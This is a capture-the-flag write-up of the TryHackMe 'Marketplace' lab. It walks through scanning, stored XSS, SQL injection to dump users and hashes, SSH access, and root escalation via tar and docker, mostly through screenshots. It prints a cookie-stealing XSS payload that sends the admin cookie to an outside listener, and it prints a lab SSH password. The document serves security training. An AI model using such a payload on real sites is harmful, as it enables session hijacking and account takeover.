 Link room: https://tryhackme.com/room/marketplace
# SCANNING
## using nmap
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/e9014a17-f045-4732-880f-3b791940d9d3)

## using ffuf
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/4012b219-2bc9-480b-baa4-935d999783d5)

## view web

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/206cafef-2ddd-4817-91f5-781248839f0d)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c5193207-b42d-4ef8-b1ed-f9fbc2b86468)

# EXPLOITING
## Flag 1

I signed up for an account and posted a "new listing"

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c7f8a660-99db-4f51-a01f-3e1dd6c3e686)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0682eaf8-f2af-4567-9a2d-1dfe0d48d2fd)

=> XSS

Therefore, I use script code to steal the cookie of admin : ```<script>document.location='http://10.9.218.234:7777/exploit.php?c='+document.cookie</script>```

with exploit.php as follows: 

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/0567c9b1-a40b-4616-b34a-6e2b9c1cacb1)

Next, I go to "http://10.10.252.206/report/4" and use netcat to get the admin cookie

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bc1a532b-c5da-4c3d-9a22-a6b17e984963)

## Using Burp Suite

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6a4509a0-99bd-41ab-8a48-938691be86b3)

=> flag 1
## user.txt
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/a4bae777-a9cf-4c57-8666-3546275547c2)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/98967896-3ae9-450d-a470-bf1939306f2a)

=> SQL Injection (sqli)

=))) Remember to use "the inspector" to turn spaces into "%20" faster

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ef803c38-f376-49f4-93fd-77b7b8e9b059)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/47c298ed-ef29-4932-b1a2-11e385349247)

=> 3 tables: items, messages, users

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/be36137a-fb0a-4fc2-b95f-84c6e8c678af)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/bd0abcbb-75e0-4d6e-bf71-29548fe49d43)

=> 4 users: bro, jake, michael, system. Next, I'll find the passwords for these users

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/5bf35588-316f-471a-a12d-a95158444a63)

Go to "pretty" to copy hashes .

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/4507895a-71df-4149-b017-14ac21a8a8ff)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/d444544e-4fb9-4630-887e-5084ce33d9d3)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/be2e6000-424f-4a83-99f1-6e17f30040a1)

=> SSH password: @b_ENXkGYUCAv3zJ
## connect to ssh server
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ee28b737-090d-4a34-83de-3cc8ea4ac56f)

=> user.txt
# PRIVILEGE ESCALATION
## using sudo -l
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/71ba875b-6c82-4753-9dd9-c99c7a7b26a7)

I create shell.sh file and temporary files

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/7f44b079-f4d8-429b-873f-c69f72548121)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ce6f4a21-fe75-4ab5-87a2-bced6da3f926)

T grant 777 permission to backup.tar and shell.sh files

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/b443164e-8cc7-41eb-845b-41ed25ef1dbd)

Run the command with user Michael's permission

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/9d2df069-5e8d-4184-adff-018e6ccfdeee)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/fd2bf98c-19ad-4949-a12b-d193fc051ef0)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/cd3ee583-ee73-49e7-98c4-967b091d0dc1)

=> 999 (docker)

Go to GTFOBins 

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/ecfabdb3-203f-454f-a18f-ec3dc446efde)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/99f34a1f-f9ba-4bc7-9111-c53cfaf3d15b)

=> root.txt
## Done!!!
Thanks for reading. Bye!

